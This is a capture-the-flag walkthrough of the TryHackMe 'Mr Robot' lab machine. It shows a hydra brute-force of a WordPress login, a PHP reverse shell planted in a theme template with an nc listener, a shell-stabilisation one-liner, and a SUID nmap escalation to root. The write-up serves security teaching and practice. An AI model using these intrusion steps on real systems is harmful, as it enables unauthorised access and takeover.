 # Mr. Robot CTF Walkthrough

a walkthrough of the popular Mr. Robot themed boot2root machine. in this box, you'll learn how to exploit wordpress, crack hashes, and escalate privileges  

# Introduction

**Name:** Mr Robot CTF  
**Challenge type:** Boot2Root machine  
**Rated difficulty:** Medium  
**Link:** https://tryhackme.com/room/mrrobot  

# Nmap Scan Results

we will start by scanning open ports on the target machine, here's what nmap found:  

```
PORT    STATE  SERVICE  VERSION
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 02:6E:76:1C:2E:07 (Unknown)
```

ports 80 and 443 are open running Apache, but neither site has a proper title or header  

# Enumerating HTTP and HTTPS  

interacting with the HTTP and HTTPS services didn't immediately reveal much. here's a look at `robots.txt` which caught my attention:  

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

looks like we found the first key file `key-1-of-3.txt` and a wordlist named `fsocity.dic`.  

downloading the wordlist with wget:  

```bash
wget http://10.10.99.69/fsocity.dic
```

the file contains tons of duplicate words:  

```
angela
angela
angela
...
```

so I cleaned it up by removing duplicates:  

```bash
sort fsocity.dic | uniq -d > clean-dic.txt
```

Running gobuster on the site revealed it's running Wordpress:  

```
/wp-content           (Status: 301)
/admin                (Status: 301)
/audio                (Status: 301)
/intro                (Status: 200)
```

accessing `/wp-login.php` gave me a login page where username enumeration was possible.  

![Username enumeration](../images/thm/mrrobot/username-enum.png)  

confirmed `elliot` is a valid username, while guessing main Mr. Robot characters  

![Valid username elliot](../images/thm/mrrobot/valid-user.png)  

next, I brute forced the login using hydra with the cleaned dictionary and username `elliot`:  

```bash
hydra -l elliot -P clean-dic.txt 10.10.99.69 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered for the username"
```

`hydra` found a valid password for elliot!  

```
elliot:XXXXXXX
```

after logging in, going to **Appearance → Editor** gives us a form to edit theme files  

![Wordpress theme editor](../images/thm/mrrobot/theme-editor.png)  

I edited the `404.php` template with a PHP reverse shell (from pentestmonkey's repo), adding my IP and port.  

after updating the `404.php` with the reverse shell code.  

![Reverse shell injected](../images/thm/mrrobot/reverse-shell-injected.png)  

remember to start your listener:  

```bash
nc -lvnp 1337
```

visiting a non-existent page triggers the reverse shell, and I got a shell as user daemon:  

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.4.7.139] from (UNKNOWN) [10.10.99.69] 39735
$ whoami
daemon
```

# Privilege Escalation  

after looking around for a bit, inside `/home/robot` I found two files:  

```
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```

I couldn't read the second key, but I could read the password hash:  

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

I took the hash to CrackStation and got the password  

![Hash cracked on CrackStation](../images/thm/mrrobot/hash.png)  

trying to switch user with `su robot` initially failed because the shell was unstable:  

```
su: must be run from a terminal
```

I stabilized the shell with:  

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

after that, we can switch to the robot user successfully.  

# Getting Root  

after more enumeration, I didn't find much at first. then I checked for SUID binaries:  

```bash
find / -perm -u=s -type f 2>/dev/null
```

```
/bin/ping
/bin/umount
/bin/mount
...
/usr/local/bin/nmap
...
```

if you've done Boot2Root machines before, you know nmap with SUID is unusual. checking GTFOBins confirmed it.  

![GTFOBins nmap exploit](../images/thm/mrrobot/gtfobins.png)  

exploiting the SUID nmap binary to spawn a root shell:  

```bash
nmap --interactive
```

```
nmap> !sh
# whoami
root
```

this machine was fun, the final key is in `/root`.  

© 2025 ax0ryn. created with coffee  

